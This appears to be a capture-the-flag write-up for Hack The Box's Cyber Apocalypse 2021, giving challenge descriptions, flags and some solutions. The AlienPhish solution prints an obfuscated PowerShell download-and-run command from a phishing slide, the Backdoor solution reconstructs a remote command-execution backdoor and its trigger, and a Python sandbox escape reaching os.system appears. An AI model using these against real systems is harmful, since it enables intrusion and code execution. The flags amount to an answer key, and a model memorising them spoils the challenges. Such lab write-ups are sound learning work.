



# Cyber Apocalypse 2021

  

**Mon, 19 April 2021, 12:00 UTC — Fri, 23 April 2021, 18:00 UTC**

```
22 April is International Earth Day and guess what... The Earth was hacked by
malicious extraterrestrials. Their ultimate plan is to seize control of our
planet. It’s only you who can save us from this terrible fate.

Team Size: 1-10
Difficulty: Beginner to Intermediate

For every challenge that gets at least one solve, Hack The Box will be making
a donation to Code.org. Your goal is to hack as much as possible to help us
support Code.org's mission.
```

[](https://ctftime.org/event/1304) [](https://www.hackthebox.eu/)

## Challenges

- [Alien Camp](#alien-camp) 
- [AlienPhish](#alienphish) 
- [Authenticator](#authenticator) 
- [Backdoor](#backdoor) 
- [BlitzProp](#blitzprop) 
- [Build yourself in](#build-yourself-in) 
- [Compromised](#compromised) 
- [E.Tree](#etree) 
- [Input as a Service](#input-as-a-service) 
- [Inspector Gadget](#inspector-gadget) 
- [Key mission](#key-mission) 
- [Low Energy Crypto](#low-energy-crypto) 
- [Nintendo Base64](#nintendo-base64) 
- [Off the grid](#off-the-grid) 
- [Passphrase](#passphrase) 
- [PhaseStream 1](#phasestream-1) 
- [PhaseStream 2](#phasestream-2) 
- [PhaseStream 3](#phasestream-3) 
- [PhaseStream 4](#phasestream-4) 
- [Robotic Inflitration](#robotic-inflitration) 
- [Secure](#secure) 
- [Serial Logs](#serial-logs) 
- [SoulCrabber](#soulcrabber) 
- [SoulCrabber 2](#soulcrabber-2) 
- [The Galactic Times](#the-galactic-times) 
- [Welcome!](#welcome) 
- [Wild Goose Hunt](#wild-goose-hunt) 

## To Do

- [ ] [Alienspeak](#alienspeak) 
- [ ] [Caas](#caas) 
- [ ] [Cessation](#cessation) 
- [ ] [Controller](#controller) 
- [ ] [DaaS](#daas) 
- [ ] [Discovery](#discovery) 
- [ ] [Hidden](#hidden) 
- [ ] [emoji voting](#emoji-voting) 
- [ ] [Invitation](#invitation) 
- [ ] [Minefield](#minefield) 
- [ ] [MiniSTRyplace](#ministryplace) 
- [ ] [Oldest trick in the book](#oldest-trick-in-the-book) 
- [ ] [Tetris](#tetris) 

---

## Alien Camp

  

**Challenge Category**


**Challenge Description**

```
The Ministry of Galactic Defense now accepts human applicants for their
specialised warrior unit, in exchange for their debt to be erased. We do not
want to subject our people to this training and to be used as pawns in their
little games. We need you to answer 500 of their questions to pass their
test and take them down from the inside.
This challenge will raise 33 euros for a good cause.
```

**Flag**

```
CHTB{3v3n_4l13n5_u53_3m0j15_t0_c0mmun1c4t3}
```

### Solution

When we first connect to the service, we see this:

```python
$ nc 138.68.148.149 31530
Alien camp 👾

1. ❓
2. Take test!
> 1
Here is a little help:

🌞 -> 62 🍨 -> 78 ❌ -> 53 🍪 -> 82 🔥 -> 89 ⛔ -> 66 🍧 -> 39 👺 -> 98 👾 -> 27 🦄 -> 18

1. ❓
2. Take test!
> 1
Here is a little help:

🌞 -> 48 🍨 -> 39 ❌ -> 86 🍪 -> 95 🔥 -> 70 ⛔ -> 75 🍧 -> 55 👺 -> 82 👾 -> 16 🦄 -> 87

1. ❓
2. Take test!
> 2

You must answer 500 questions. You have only a few seconds for each question! Be fast! ⏰

Question 1:

⛔ + 🍪 * 🍨  = ?

Answer: 0

Time: 2.34
Too slow! 🐌
```

It looks like there is a new "key" generated every time we connect, and every time we enter `1`. We also need to answer the question quickly or the program will return `Too slow! 🐌`.

Let's write a quick script to solve this for us.

```python
#!/usr/bin/env python3
from pwn import *
from re import findall


context.log_level = 'warn'
def get_key():
    r.sendline(b'1')
    r.recvuntil(b'\n\n')
    key = r.recvuntil(b'\n\n', drop=True).decode()
    r.recvuntil(b'> ')

    key = re.findall('[^ ]+ -> \d+', key)
    key = dict(i.split(' -> ') for i in key)
    return key

def answer_question(key):
    r.recvuntil(b':\n\n')
    question = r.recvuntil(b'\n\n', drop=True).decode().split('=')[0].strip()
    for i in question:
        if i in key:
            question = question.replace(i, key[i])
    r.recvuntil(b'Answer: ')
    r.sendline(str(eval(question)).encode())


def take_test(key):
    r.sendline(b'2')
    for _ in range(500):
        answer_question(key)


if __name__ == '__main__':
    try:
        if len(sys.argv) != 3:
            raise ValueError
        host = sys.argv[1]
        port = int(sys.argv[2])
    except ValueError:
        raise ValueError(f'Usage: {sys.argv[0]} host port')
    r = remote(host, port)
    r.recvuntil(b'> ')
    key = get_key()
    take_test(key)
    response = r.recvuntil(b'\n\n')
    flag, = re.findall(b'CHTB{[^}]+}', response)
    print(flag.decode())
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Alien complaint form

  

**Challenge Category**


**Challenge Description**

```
The Aliens found a cool new security feature called CSP and have since
implemented it into their HR Complaint Form. There are reports that any
issues reported by humans are not taken into account and instead deleted.
The Human resistance has left a backdoor in the website that can be used
to acquire sensitive information from the Aliens. Can you find it?
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[web_alien_complaint_form.zip](files/alien_complaint_form/web_alien_complaint_form.zip)

**Flag**

```
CHTB{CSP_4nd_Js0np_d0_n0t_alw4ys_g3t_al0ng}
```

[*Back to Top*](#ctf-name)

---

## AlienPhish

  

**Challenge Category**


**Challenge Description**

```
This PowerPoint presentation was sent to the top leadership of the human
resistance effort. We believe it was an attempt by the aliens to phish into
our networks. Find the malicious payload and the flag.
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[forensics_alienphish.zip](files/alienphish/forensics_alienphish.zip)

**Flag**

```
CHTB{pH1sHiNg_w0_m4cr0s???}
```

### Solution

For this challenge, we are provided with a powerpoint which supposedly has a malicious payload in it. We can analyze the powerpoint by unzipping it.

```bash
unzip "Alien Weaknesses.pptx"
```

After a bit of searching, we find something suspicious in `ppt/slides/_rels/slide1.xml.rels`.

```bash
$ cat ppt/slides/_rels/slide1.xml.rels
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId3" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/image" Target="../media/image1.png"/><Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22" TargetMode="External"/><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/slideLayout" Target="../slideLayouts/slideLayout1.xml"/><Relationship Id="rId5" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/image" Target="../media/image2.png"/><Relationship Id="rId4" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe" TargetMode="External"/></Relationships>
```

The suspicious payload decodes to:

```powershell
cmd.exe /V:ON/C"set yM="o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'   pmet:vne$ = o$" c- llehsrewop&amp;&amp;for /L %X in (122;-1;0)do set kCX=!kCX!!yM:~%X,1!&amp;&amp;if %X leq 0 call %kCX:*kCX!=%"
```

After analyzing the payload, we notice that it's reversing the string in the command. We also notice an interesting filename in the command:

```
Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99
```

This looks like a base64 string with url safe characters. We can retrieve the flag by decoding the filename.

```bash
$ echo Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99 | tr '_-' '/+' | base64 -d
CHTB{pH1sHiNg_w0_m4cr0s???}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Alienspeak

  

**Challenge Category**


**Challenge Description**

```
We were able to capture a digital audio stream of what we believe is alien
communication. We had scientists building a machine learning model to
be able to decode alien language, but they went... on vacation. We
recovered some of their files though, and they should help us to recover
valuable information from this stream.
This challenge will raise 80 euros for a good cause.
```

**Challenge Files**

[misc_alienspeak.zip](files/alienspeak/misc_alienspeak.zip)

**Flag**

```
CHTB{4L13N5_<3_34R7H_MU51C}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Alienware

  

**Challenge Category**


**Challenge Description**

```
We discovered this tool in the E.T. toolkit which they used to encrypt and
exfiltrate files from infected systems. Can you help us recover the files?
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[rev_alienware.zip](files/alienware/rev_alienware.zip)

**Flag**

```
CHTB{3nh4nc3d_al1en_m@lwar3!}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Artillery

  

**Challenge Category**


**Challenge Description**

```
We managed to gain access to an Alien Airbase application. Can you help
us compromise it for further investigation?
This challenge will raise 80 euros for a good cause.
```

**Challenge Files**

[web_artillery.zip](files/artillery/web_artillery.zip)

**Flag**

```
CHTB{OOB_p1us_err0r_b@s3d_XXE_da_b0ss!}
```

[*Back to Top*](#ctf-name)

---

## Authenticator

  

**Challenge Category**


**Challenge Description**

```
We managed to steal one of the extraterrestrials' authenticator device. If
we manage to understand how it works and get their credentials, we may
be able to bypass all of their security locked doors and gain access
everywhere!
This challenge will raise 33 euros for a good cause.
```

**Challenge Files**

[rev_authenticator.zip](/Cyber-Apocalypse/files/authenticator/rev_authenticator.zip)

**Flag**

```
CHTB{th3_auth3nt1c4t10n_5y5t3m_15_n0t_50_53cur3}
```

### Solution

For this challenge, we need to reverse engineer a program to retrieve the flag.

Let's start by running it to see what it does.

```bash
$ ./authenticator

Authentication System 👽

Please enter your credentials to continue.

Alien ID:
Access Denied!
```

Looks like we need to find a valid ID. Let's see if we can figure it out with Ghidra.


Now that we have the decompiled code, it's a lot easier to understand whats going on. Now we can clearly see it is doing a `strcmp` on our input with `11337`, which means that's what the program is expecting for the ID. However, it looks like we're not done yet.

After the `strcmp`, it asks for a pin and runs `checkpin` on our input. Let's take a look at what's going on in `checkpin`.


It looks like it's comparing our input with a string that's being XORed with `9`. Let's XOR the string to see what the program is expecting.

```python
>>> ''.join(chr(c ^ 9) for c in b'}a:Vh|}a:g}8j=}89gV<p<}:dV8<Vg9}V<9V<:j|{:')
'th3_auth3nt1c4t10n_5y5t3m_15_n0t_50_53cur3'
```

Now we just need to wrap this with the flag format to solve this challenge.

[*Back to top*](#cyber-apocalypse-2021)

---

## Backdoor

  

**Challenge Category**


**Challenge Description**

```
One of our friends has left a backdoor on the extraterrestrials' server. If
we manage to take advantage of it, we will be able to control all the doors
and lock them outside or open doors to facilites we have no access.
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[rev_backdoor.zip](files/backdoor/rev_backdoor.zip)

**Flag**

```
CHTB{b4ckd00r5_4r3_d4nG3r0u5}
```

### Solution

For this challenge, we need to figure out how to trigger binary's backdoor to retrieve the flag. Let's start by doing some basic recon on the file.

```bash
$ objdump -h bd

bd:     file format elf64-x86-64

Sections:
Idx Name          Size      VMA               LMA               File off  Algn
...
 27 pydata        006abbc6  0000000000000000  0000000000000000  00009284  2**0
                  CONTENTS, READONLY
```

After a bit of poking around, we notice an unusual section header in the file. This binary appears to have a `pydata` section. The `pydata` section indicates that the binary was most likely created by `PyInstaller`, or a similar program, which converts python scripts to binary files.

We can use a tool named `pyi-archive_viewer` to analyze the binary for us.

```bash
$ pyi-archive_viewer bd
 pos, length, uncompressed, iscompressed, type, name
...
 (13756, 528, 732, 1, 's', 'bd'),
...
?
```

While analyzing the file, we notice an interesting archive name in the binary. Let's extract the file to see what's in it.

```bash
? X bd
to filename? bd_archive
```

After some further analysis, we see that the extracted file is compiled python code. Unfortunately, `uncompyle6` doesn't seem to be able to disassemble it for us. Looks like we're going to have to do it manually.

```python
>>> import dis, marshal
>>> with open('bd_archive', 'rb') as f:
...     code = marshal.load(f)
...
>>> with open('bd_disassembled.txt', 'w') as f:
...     dis.dis(code, file=f)
...
```

Which gives us this:

```
  1           0 LOAD_CONST               0 (0)
              2 LOAD_CONST               1 (None)
              4 IMPORT_NAME              0 (socket)
              6 STORE_NAME               0 (socket)

  2           8 LOAD_CONST               0 (0)
             10 LOAD_CONST               2 (('md5',))
             12 IMPORT_NAME              1 (hashlib)
             14 IMPORT_FROM              2 (md5)
             16 STORE_NAME               2 (md5)
             18 POP_TOP

  3          20 LOAD_CONST               0 (0)
             22 LOAD_CONST               3 (('check_output',))
             24 IMPORT_NAME              3 (subprocess)
             26 IMPORT_FROM              4 (check_output)
             28 STORE_NAME               4 (check_output)
             30 POP_TOP

  4          32 LOAD_NAME                0 (socket)
             34 LOAD_METHOD              0 (socket)
             36 CALL_METHOD              0
             38 STORE_NAME               5 (sock)

  5          40 LOAD_NAME                5 (sock)
             42 LOAD_METHOD              6 (setsockopt)
             44 LOAD_NAME                0 (socket)
             46 LOAD_ATTR                7 (SOL_SOCKET)
             48 LOAD_NAME                0 (socket)
             50 LOAD_ATTR                8 (SO_REUSEADDR)
             52 LOAD_CONST               4 (1)
             54 CALL_METHOD              3
             56 POP_TOP

  6          58 LOAD_NAME                5 (sock)
             60 LOAD_METHOD              9 (bind)
             62 LOAD_CONST               5 (('0.0.0.0', 4433))
             64 CALL_METHOD              1
             66 POP_TOP

  7          68 LOAD_NAME                5 (sock)
             70 LOAD_METHOD             10 (listen)
             72 LOAD_CONST               6 (5)
             74 CALL_METHOD              1
             76 POP_TOP

  9     >>   78 LOAD_NAME                5 (sock)
             80 LOAD_METHOD             11 (accept)
             82 CALL_METHOD              0
             84 UNPACK_SEQUENCE          2
             86 STORE_NAME              12 (client)
             88 STORE_NAME              13 (addr)

 10          90 LOAD_NAME               12 (client)
             92 LOAD_METHOD             14 (recv)
             94 LOAD_CONST               7 (32)
             96 CALL_METHOD              1
             98 STORE_NAME              15 (data)

 11         100 LOAD_NAME               16 (len)
            102 LOAD_NAME               15 (data)
            104 CALL_FUNCTION            1
            106 LOAD_CONST               7 (32)
            108 COMPARE_OP               3 (!=)
            110 POP_JUMP_IF_FALSE      122

 12         112 LOAD_NAME               12 (client)
            114 LOAD_METHOD             17 (close)
            116 CALL_METHOD              0
            118 POP_TOP

 13         120 JUMP_ABSOLUTE           78

 15     >>  122 LOAD_NAME               15 (data)
            124 LOAD_METHOD             18 (decode)
            126 CALL_METHOD              0
            128 LOAD_NAME                2 (md5)
            130 LOAD_CONST               8 (b's4v3_th3_w0rld')
            132 CALL_FUNCTION            1
            134 LOAD_METHOD             19 (hexdigest)
            136 CALL_METHOD              0
            138 COMPARE_OP               3 (!=)
            140 POP_JUMP_IF_FALSE      162

 16         142 LOAD_NAME               12 (client)
            144 LOAD_METHOD             20 (send)
            146 LOAD_CONST               9 (b'Invalid')
            148 CALL_METHOD              1
            150 POP_TOP

 17         152 LOAD_NAME               12 (client)
            154 LOAD_METHOD             17 (close)
            156 CALL_METHOD              0
            158 POP_TOP

 18         160 JUMP_ABSOLUTE           78

 20     >>  162 LOAD_NAME               12 (client)
            164 LOAD_METHOD             14 (recv)
            166 LOAD_CONST               4 (1)
            168 CALL_METHOD              1
            170 STORE_NAME              21 (size)

 21         172 LOAD_NAME               12 (client)
            174 LOAD_METHOD             14 (recv)
            176 LOAD_NAME               22 (int)
            178 LOAD_METHOD             23 (from_bytes)
            180 LOAD_NAME               21 (size)
            182 LOAD_CONST              10 ('little')
            184 CALL_METHOD              2
            186 CALL_METHOD              1
            188 STORE_NAME              24 (command)

 22         190 LOAD_NAME               24 (command)
            192 LOAD_METHOD             25 (startswith)
            194 LOAD_CONST              11 (b'command:')
            196 CALL_METHOD              1
            198 POP_JUMP_IF_TRUE       210

 23         200 LOAD_NAME               12 (client)
            202 LOAD_METHOD             17 (close)
            204 CALL_METHOD              0
            206 POP_TOP
            208 JUMP_ABSOLUTE           78

 25     >>  210 LOAD_NAME               24 (command)
            212 LOAD_METHOD             26 (replace)
            214 LOAD_CONST              11 (b'command:')
            216 LOAD_CONST              12 (b'')
            218 CALL_METHOD              2
            220 STORE_NAME              24 (command)

 26         222 LOAD_NAME                4 (check_output)
            224 LOAD_NAME               24 (command)
            226 LOAD_CONST              13 (True)
            228 LOAD_CONST              14 (('shell',))
            230 CALL_FUNCTION_KW         2
            232 STORE_NAME              27 (output)

 27         234 LOAD_NAME               12 (client)
            236 LOAD_METHOD             20 (send)
            238 LOAD_NAME               27 (output)
            240 CALL_METHOD              1
            242 POP_TOP

 28         244 LOAD_NAME               12 (client)
            246 LOAD_METHOD             17 (close)
            248 CALL_METHOD              0
            250 POP_TOP
            252 JUMP_ABSOLUTE           78
            254 LOAD_CONST               1 (None)
            256 RETURN_VALUE
```

Now we can dig through the disassembled code to rebuild the source. Fortunately, it's extremely easy to understand disassembled python code. After a bit of tinkering, we get this:

```python
import socket
from hashlib import md5
from subprocess import check_output
sock = socket.socket()
sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sock.bind(('0.0.0.0', 4433))
sock.listen(5)
while True:
    client, addr = sock.accept()
    data = client.recv(32)
    if len(data) != 32:
        client.close()
        continue
    else:
        if data.decode() != md5(b's4v3_th3_w0rld').hexdigest():
            client.send(b'Invalid')
            client.close()
            continue
        else:
            size = client.recv(1)
            command = client.recv(int.from_bytes(size, 'little'))
            if not command.startswith(b'command:'):
                client.close()
                continue
            command = command.replace(b'command:', b'')
            output = check_output(command, shell=True)
            client.send(output)
            client.close()
```

I'm about 99% confident about the accuracy... Regardless, it's enough for us to figure out how to trigger the backdoor.

All we have to do is send the md5 hash of `s4v3_th3_w0rld` followed by a single byte representing the length of our command, which needs to start with `command:`. Easy enough.

```bash
$ echo -ne "$(echo -n "s4v3_th3_w0rld" | md5sum | cut -d' ' -f1)\x14command:cat flag.txt" | nc 138.68.147.93 32200
CHTB{b4ckd00r5_4r3_d4nG3r0u5}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## BlitzProp

  

**Challenge Category**


**Challenge Description**

```
A tribute page for the legendary alien band called BlitzProp!
This challenge will raise 33 euros for a good cause.
```

**Challenge Files**

[web_blitzprop.zip](files/blitzprop/web_blitzprop.zip)

**Flag**

```
CHTB{p0llute_with_styl3}
```

### Solution

This challenge was solved by my teammate. See their writeup [here](https://jaimelightfoot.com/blog/2021-htb-cyber-apocalypse-ctf-web-writeups/#blitzprop).

[*Back to top*](#cyber-apocalypse-2021)

---

## Bug Report

  

**Challenge Category**


**Challenge Description**

```
They say humans shall not take control to any of their resources. Can you
prove them wrong without letting them know.
This challenge will raise 33 euros for a good cause.
```

**Challenge Files**

[web_bug_report.zip](files/bug_report/web_bug_report.zip)

**Flag**

```
CHTB{th1s_1s_my_bug_r3p0rt}
```

[*Back to Top*](#ctf-name)

---

## Build yourself in

  

**Challenge Category**


**Challenge Description**

```
The extraterrestrials have upgraded their authentication system and now
only them are able to pass. Did you manage to learn their language well
enough in order to bypass the the authorization check?
This challenge will raise 43 euros for a good cause.
```

**Flag**

```
CHTB{n0_j4il_c4n_h4ndl3_m3!}
```

### Solution

When we connect to the service, we see this:

```python
$ nc 138.68.182.108 32412
3.8.9 (default, Apr 15 2021, 05:07:04)
[GCC 10.2.1 20201203]

[*] Only 👽 are allowed!

>>> hello
Traceback (most recent call last):
  File "/app/build_yourself_in.py", line 16, in <module>
    main()
  File "/app/build_yourself_in.py", line 13, in main
    exec(text, {'__builtins__': None, 'print':print})
  File "<string>", line 1, in <module>
TypeError: 'NoneType' object is not subscriptable
```

It looks like our input is being run in `exec`, execept `__builtins__` has been removed. Unfortunately, this means we can't solve it the same way we solved [Input as a Service](#input-as-a-service) since we can't call `__import__` directly. However, we can see that the `print` function is available to us.

If we look at the `print` function on our local machine, we can see that `print` is a `builtin_function_or_method`.

```python
>>> type(print)
<class 'builtin_function_or_method'>
```

Let's see if we can access the parent class.

```python
>>> print.__self__
<module 'builtins' (built-in)>
>>> dir(print.__self__)
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BlockingIOError', 'BrokenPipeError', 'BufferError', 'BytesWarning', 'ChildProcessError', 'ConnectionAbortedError', 'ConnectionError', 'ConnectionRefusedError', 'ConnectionResetError', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EnvironmentError', 'Exception', 'False', 'FileExistsError', 'FileNotFoundError', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'InterruptedError', 'IsADirectoryError', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'ModuleNotFoundError', 'NameError', 'None', 'NotADirectoryError', 'NotImplemented', 'NotImplementedError', 'OSError', 'OverflowError', 'PendingDeprecationWarning', 'PermissionError', 'ProcessLookupError', 'RecursionError', 'ReferenceError', 'ResourceWarning', 'RuntimeError', 'RuntimeWarning', 'StopAsyncIteration', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'TimeoutError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeError', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'WindowsError', 'ZeroDivisionError', '_', '__build_class__', '__debug__', '__doc__', '__import__', '__loader__', '__name__', '__package__', '__spec__', 'abs', 'all', 'any', 'ascii', 'bin', 'bool', 'breakpoint', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'exec', 'exit', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'vars', 'zip']
```

Success! Now we have access to all of the builtin functions. Let's try getting command execution.

```python
$ nc 138.68.182.108 32412
3.8.9 (default, Apr 15 2021, 05:07:04)
[GCC 10.2.1 20201203]

[*] Only 👽 are allowed!

>>> print.__self__.__import__('os').system('ls')
⛔ No quotes are allowed! ⛔

Exiting..
```

Bummer... Looks like quotes are being filtered. Well fortunately for us, we don't need quotes. We can build a string using built-in functions such as `bytes`.

```python
$ nc 138.68.182.108 32412
3.8.9 (default, Apr 15 2021, 05:07:04)
[GCC 10.2.1 20201203]

[*] Only 👽 are allowed!

>>> print.__self__.__import__(print.__self__.bytes([0x6f, 0x73]).decode()).system(print.__self__.bytes([0x6c, 0x73]).decode())
build_yourself_in.py
flag.txt
>>> print(print.__self__.open(print.__self__.bytes([0x66, 0x6c, 0x61, 0x67, 0x2e, 0x74, 0x78, 0x74]).decode()).read())
CHTB{n0_j4il_c4n_h4ndl3_m3!}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Caas

  

**Challenge Category**


**Challenge Description**

```
cURL As A Service or CAAS is a brand new Alien application, built so that
humans can test the status of their websites. However, it seems that the
Aliens have not quite got the hang of Human programming and the
application is riddled with issues.
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[web_caas.zip](files/caas/web_caas.zip)

**Flag**

```
CHTB{f1le_r3trieval_4s_a_s3rv1ce}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Cessation

  

**Challenge Category**


**Challenge Description**

```
Enemy forces are using a stealthy device to penetrate into our country.
We've identified its origin and its time cessate their strength and defend
our country from the attack.
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[web_cessation.zip](files/cessation/web_cessation.zip)

**Flag**

```
CHTB{c3ss4t10n_n33d_sync1ng_#@$?}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Close the door

  

**Challenge Category**


**Challenge Description**

```
The extraterrestrials have been chasing us for hours but we managed to
escape by hiding in one of the power plants. We closed the door and kept
them away. The only problem is that we do not know the secret password
to open the emergency door and escape. If we do not manage to unlock
the door, we are doomed!
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[misc_close_the_door.zip](files/close_the_door/misc_close_the_door.zip)

**Flag**

```
CHTB{f_cl0s3d_d00r5_w1ll_n0t_st0p_us}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Compromised

  

**Challenge Category**


**Challenge Description**

```
An embedded device in our serial network exploited a misconfiguration
which resulted in the compromisation of several of our slave devices in it,
leaving the base camp exposed to intruders. We must find what
alterations the device did over the network in order to revert them before
its too late
This challenge will raise 33 euros for a good cause.
```

**Challenge Files**

[hw_compromised.zip](files/compromised/hw_compromised.zip)

**Flag**

```
CHTB{nu11_732m1n47025_c4n_8234k_4_532141_5y573m!@52)#@%}
```

### Solution

This challenge involves analyzing serial traffic between a master and slave device. We can use a tool, [Saleae](https://www.saleae.com/), to read the traffic for us.

Serial communication between master and slave devices can be read with the `I2C` protocol analyzer. Load the analyzer with the following settings:


When we go to the terminal, we see traffic being sent between devices:

```
write to 0x34 ack data: 0x73
write to 0x34 ack data: 0x65
write to 0x34 ack data: 0x74
...
```

While parsing through the output, we see three addresses in the traffic: `0x04`, `0x2C`, and `0x34`. Two of the addresess have data being written to them. We can retreive the flag by reading the data being written to `0x2C`. We can do this by exporting the data to a csv so it will be easier to parse.

```python
#!/usr/bin/env python3
import csv


def read_csv(filename):
    with open(filename, 'r') as f:
        data = csv.DictReader(f)
        return list(data)

def get_addr_data(data, addr):
    return bytes(int(x['Data'], 16) for x in data if x['Address'] == addr)


if __name__ == '__main__':
    csv_data = read_csv('compromised.csv')
    flag = get_addr_data(csv_data, '0x2C')
    print(flag.decode())
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Controller

  

**Challenge Category**


**Challenge Description**

```
The extraterrestrials have a special controller in order to manage and use
our resources wisely, in order to produce state of the art technology
gadgets and weapons for them. If we gain access to the controller's server,
we can make them drain the minimum amount of resources or even stop
them completeley. Take action fast!
This challenge will raise 33 euros for a good cause.
```

**Challenge Files**

[pwn_controller.zip](files/controller/pwn_controller.zip)

**Flag**

```
CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## DaaS

  

**Challenge Category**


**Challenge Description**

```
We suspect this server holds valuable information that would further
benefit our cause, but we've hit a dead end with this debug page running
on a known framework called Laravel. Surely we couldn't exploit this
further.. right?
This challenge will raise 33 euros for a good cause.
```

**Challenge Files**

[File](link)

**Flag**

```
CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Discovery

  

**Challenge Category**


**Challenge Description**

```
Enemy troops are approaching. There's no time to locate the plane. Help
us in tracking them down.
This challenge will raise 43 euros for a good cause.
```

**Flag**

```
CHTB{1_h4v3_n0_n4m3_@_@}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## E.Tree

  

**Challenge Category**


**Challenge Description**

```
After many years where humans work under the aliens commands, they
have been gradually given access to some of their management
applications. Can you hack this alien Employ Directory web app and
contribute to the greater human rebellion?
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[web_etree.zip](files/etree/web_etree.zip)

**Flag**

```
CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l}
```

### Solution

This challenge was solved by my teammate. See their writeup [here](https://jaimelightfoot.com/blog/2021-htb-cyber-apocalypse-ctf-web-writeups/#etree).

[*Back to top*](#cyber-apocalypse-2021)

---

## emoji voting

  

**Challenge Category**


**Challenge Description**

```
A place to vote your favourite and least favourite puny human emojis!
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[web_emoji_voting.zip](files/emoji_voting/web_emoji_voting.zip)

**Flag**

```
CHTB{order_me_this_juicy_info}
```

